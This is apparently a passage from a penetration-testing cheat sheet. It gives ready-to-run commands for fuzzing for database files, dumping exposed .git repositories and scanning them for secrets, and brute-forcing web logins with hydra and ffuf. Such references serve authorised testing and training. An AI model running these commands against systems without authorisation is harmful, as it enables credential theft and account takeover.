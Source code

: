 ```bash
  -u http://<IP>/FUZZ -e .db,.sqlite,.sqlite3,.mdb -mc 200
```

### Git Repository Exploitation

```bash
# GitTools - Dumper
./gitdumper.sh http://<IP>/.git/ output_dir

# GitTools - Extractor
./extractor.sh output_dir extracted_dir

# git-dumper (alternative)
git-dumper http://<IP>/.git/ output_dir

# Analyze git logs
git log --oneline
git diff HEAD~1
git show <commit_hash>

# Search for secrets
truffleHog file://extracted_dir
gitleaks detect -v
```

---

## Authentication Attacks

### Brute Force Attacks

#### Hydra Examples

```bash
# HTTP POST Form
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form \
  "/login.php:username=^USER^&password=^PASS^:F=incorrect"

# HTTP Basic Auth
hydra -l admin -P passwords.txt <IP> http-get /admin/

# With cookies
hydra -l admin -P passwords.txt <IP> http-post-form \
  "/login:user=^USER^&pass=^PASS^:F=Failed:H=Cookie: PHPSESSID=abcdef"
```

#### FFuF Authentication

```bash
# Login form brute force
ffuf -w users.txt:USER -w passwords.txt:PASS -X POST \
  -d "username=USER&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://<IP>/login -fc 401,403

# Basic auth
ffuf -w users.txt:USER -w passwords.txt:PASS \
  -u http://USER:PASS@<IP>/admin -fc 401
```

